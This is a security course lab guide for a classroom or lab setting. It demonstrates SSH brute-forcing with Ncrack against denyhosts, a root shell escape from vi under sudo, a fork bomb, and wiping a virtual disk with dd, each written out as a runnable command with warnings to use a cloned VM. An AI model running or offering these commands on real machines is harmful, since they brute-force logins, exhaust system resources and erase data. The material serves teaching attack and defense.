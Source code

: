 # **Lab 07:** Analyze and Differentiate Types of Attacks and Mitigations Techniques

## **Bruteforcing SSH**

### **Demonstrate Using Ncrack Against denyhosts**

**From Target's Machine**
- Open Terminal
- Verify that the SSH service is running
```
~$ ps -eaf | grep -v grep | grep sshd
```
- Verify that the service **denyhosts** is not running
```
~$ service denyhosts status
```
- Based on the denyhosts.conf file, check to see where it places denied hosts.
```
~$ sudo grep HOSTS_DENY /etc/denyhosts.conf | grep -v "#"
```
**From Threat Actor's Machine**
- Open Terminal
- Test SSH connection to the target system
```
~$ ssh name@ipaddress "uptime"
```
**From Target's Machine**
- Open Terminal
- Grep the log entry recorded from the SSH connection that was initiated by the threat actor.
```
~$ grep “Accepted password” /var/log/auth.log | grep “Attacker'sIP”
```
**From Threat Actor's Machine**
- Open Terminal
- Initiate the Ncrack tool against target's SSH service, using a predefined password list.
```
~$ ncrack –v Target's IP -- user root –P /tmp/wordlists/passlist –p ssh
```
**From Target's Machine**
- Open Terminal
- Start the denyhosts script
```
~$ sudo service denyhosts start
```
**From Threat Actor's Machine**
- Open Terminal
- Attempt to SSH to the target's system with the credentials gained from the Ncrack tool
```
~$ ssh name@Target'sIP
```
- Might notice now how the connection is being automatically closed by the remote system.
- If so, determine if the IP address is being blocked or if SSH traffic is being blocked.
```
~$ telnet Target'sIP 22
```
- Noticing the output, we can determine that the IP address is being blocked since the remote host is still listening on port 22

**From Target's Machine**
- Open Terminal
- View the contents of the **hosts.denyfile**
- Notice that the file is populated with the IPaddress belonging to the Threat Actor's system. 
- It can be concluded that the denyhosts service has blocked Attacker’s IP address based on its attempt to force itself an SSH connection with the remote system.
- Analyze the auth.log file for failed password attempts (case sensitive).
```
~$ grep “Failed password” /var/log/auth.log | grep “203.0.113.2”
```
- Notice the failed attempts created by the Ncrack application.

### **Unblock Threat Actor's IP**

**From Target's Machine**
- To remove the blocked entry from the hosts.deny file, temporarily stop the rsyslogservice.
```
~$ sudo service rsyslog stop
```
- Stop the denyhosts service.
```
~$ sudo service denyhosts stop
```
- Edit the hosts.deny file by removing the Attacker's IP entry.
```
~$ sudo nano /etc/hosts.deny
```
- Use your arrows keys to navigate to the IP entry and press Backspace to erase the entire line: “sshd: Attacker's IP”
- Once modified, press CTRL+X to exit.
- When asked to save modified buffer, press the Ykey for Yes.
- Press Enter to confirm the filename as /etc/hosts.deny

## **Dangerous Linux Commands**

### **Exploiting sudo with vi Editor**

- Escalate to root privileges.
```
~$ sudo su
```
- Create and edit the hacksrus.txt file**
```
~$ vi hacksrus.txt
```
- Once in the **vi** editor, type the command below.
```
:!/bin/sh
```
- The input is recorded at the bottom of the **vi** editor.
- Press Enter.
- After the command is entered, you’ll be presented with the ‘ # ‘ prompt.
- Type *id* followed by pressing the Enter key.
- This command will print the current user
- Notice that you are running a shell as root.
- Type whoami to confirm you are the user root. Press Enter.
- Type exitfollowed by pressing the Enter key to close the shell.
- Press the Enterkey once more.
- Notice the prompt returns to the **vi** editor, type the command below followed by pressing the Enter key to quit.
```
:q!
```
- While in the terminal, type the command below to analyze the log file showing privileges being escalated to root.
```
~$ grep sudo /var/log/auth.log | tail -l
```
## **Demonstrate DOS Attack**
### **Warning:** Do not attempt this section of the lab on a personal computer.  It will cause serious harm to a machine, resulting in an inoperable state.
- ### **Be sure to clone your Virtual Machine before continuing.**

### **From Virtual Machine**
- Monitor live CPU and memory usage within a terminal window. Enter:
```
~$ htop
```
- Open a new terminal window
- Make sure to arrange the display of the new terminal window where you can see both terminals side-by-side.
- In the new terminal window, type the command below to initiate a “fork bomb” attack on the VM. 
```
~$ :(){ :|: & };:
```
- Watch closely at the terminal window with **htop** running.
- After 3-4 minutes, notice how the CPU usage spikes, reaching almost 100% while both memory and swap memory are spiking as well.
- What is happening here is that the Virtual Machine is running out of memory by forking a process infinitely.
- In other words, it is making multiple copies of itself that is setting off a chain reaction resulting in quickly exhausting the system’s resources.
- Because the system is overwhelmed, the **htop** application may be slow and unresponsive.
- Keep an eye on the Uptime value and see whether it is incrementing. If it is not, it is unresponsive. You may proceed to the next step.
- When you are finished analyzing the “fork bomb” operation, shutdown the Virtual Machine.

## **Destroying the HDD with dd**
### **Warning:**  Do not attempt this section of the lab on a personal computer. It will cause serious harm to a machine resulting, in an inoperable state. 
- ### **Be sure to clone your Virtual Machine before continuing.**

### **From Virtual Machine**
- Open a terminal
- Run **iotop** to actively monitor disk I/O activity
```
~$ sudo iotop
```
- Open another new terminal window.
- Position both terminal windows so that both can be viewed at the same time.
- Type the command below to mimic an HDD attack if a threat actor had access to a physical machine within a network infrastructure.
```
~$ sudo dd if=/dev/zero of=/dev/sda
```
- Notice on the Terminal running **iotop**, a heavy I/O activity is taking place.
- Wait 1-3 minutes until the system crashes.
- Power down VM
- Power on VM
- Wait 1-3 minutes until a message appears showing that no operating system is available.
- The **dd** command has been successful in such a way that the damage has been done.
- The command process kept writing random zeros on the partition *sda* to the point where it can no longer function because of the overwritten files.
